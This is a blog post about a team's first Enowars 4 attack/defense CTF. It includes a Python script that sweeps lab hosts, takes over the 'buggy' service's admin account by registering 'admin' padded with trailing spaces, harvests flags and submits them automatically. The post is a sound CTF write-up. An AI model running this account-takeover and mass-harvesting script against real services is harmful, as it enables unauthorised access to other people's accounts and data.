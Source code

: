 ```yaml
---
title: Enowars 4 CTF
author: Lim Kai Xian (AxiaMil)
date: 2020-07-19 00:00:00 +0800
categories: [CTF, Enowars-4]
tags: [ctf, tech, web]
toc: true
comments: true
---
```



# What is Enowars Capture The Flag Competition

Enowars Capture The Flag competiton is by a CTF-Team & Workgroup for Computer Security located in TU Berlin. It is a 2 man Attack / Defense CTF played online where teams will have to attack and defend their vulnerable Machine by firstly identifying vulnerabilities in the machine. Teams will be awarded points base on the time their service is up and submitting flags to the server. After identifying the vulnerabilities, teams will need to patch their service in order for them to gain points as their service is up while preventing other teams from exploiting their services and getting the flag. Points are deducted when other teams get flag from your vulnerable machine.

![upload-image](/assets/img/blog/enowars-4-CTF/cover.png)

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.


# Our Experience

As this was my first time trying out an actual Attack / Defense CTF we spent some time finding out how it works. To add on, the timezone for the CTF was from 8pm to 5am hence we were not able to finish solving all the Challenges. Luckily, ColdSpot found a vulnerability on the service buggy and got the flag for it.

From there, we were able to write a script using python to get the flag automatically and submit to the flag collecter (enowars' server). This is our python script to solve the buggy challenge, It is in nowhere perfect as it took in other values other than the flag but submitting wrong flags wont penalize us so we did not really care much (It wasted time though).

```py
import requests
import re
import socket
import string
import signal
from contextlib import contextmanager

@contextmanager
def timeout(time):
    # Register a function to raise a TimeoutError on the signal.
    signal.signal(signal.SIGALRM, raise_timeout)
    # Schedule the signal to be sent after ``time``.
    signal.alarm(time)

    try:
        yield
    except TimeoutError:
        pass
    finally:
        # Unregister the signal so it won't be triggered
        # if the timeout is not reached.
        signal.signal(signal.SIGALRM, signal.SIG_IGN)


def raise_timeout(signum, frame):
    raise TimeoutError

def is_ascii(s):
    return all(ord(c) < 128 for c in s)

def get_flags():
    f = open("flag.txt", "r")
    known_flags = f.read().split('\n')
    ip_blacklist = [16,22,24,25,26,28,37,58,75,110,113,115,126,130,133,156,182,187,194]
    for i in range(1,198):
        if i in ip_blacklist:
            continue
        with timeout(10):
            try: 
                url = 'http://10.0.0.' + str(i) + ':7890/register'
                print(url)
                user_pass = {'username':'admin                                   ','pw':'lol'}
                s = requests.Session()
                s.post(url, data=user_pass)
                admin_url = 'http://10.0.0.' + str(i) + ':7890/user/admin'
                x = s.get(admin_url)
                result = re.findall("Status: (.*)</h3>", x.text)
                for u in result:
                    if string.printable not in u and u not in known_flags:
                        if u.strip() != '' and not is_ascii(u):
                            a.append(u)
            except:
                continue
    print('done')
while True:
    a = []

    get_flags()

    f_write = open("flag.txt", "a+")

    HOST = '10.0.13.37'
    PORT = 1337
    print(len(a))
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        while True:
            for i in a:
                s.sendall((i+'\n').encode('utf-8'))
                print(i+'\n')
                print(s.recv(1024))
                f_write.write(i + '\n')
            break
```

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.

[Check their website here](https://enowars.com/)

# Placement

Before, we went to sleep we were placed at the 40th position and were also the 3rd for Singapore.

![upload-image](/assets/img/blog/enowars-4-CTF/score.png)

Waking up, we were suprised we have passed the team above us and have gotten the 39th position as the script was running overnight for us LOL.

# Overall

Overall, even though we did not place high for the competition it was a good introduction to Attack / Defense CTF in general. I'm sure we will be able to perfom much better in the next Attack / Defense CTF we attend

# Resources & Challenges

[Challenges/Vulnerable Services](https://github.com/enowars/enowars4-vulnbox-services)  
[Scoreboard used (Bambi Scoreboard)](https://github.com/enowars/bambi-scoreboard)  
[Infrastructure used (Bambi CTF Infrastructure)](https://github.com/enowars/bambictf)  
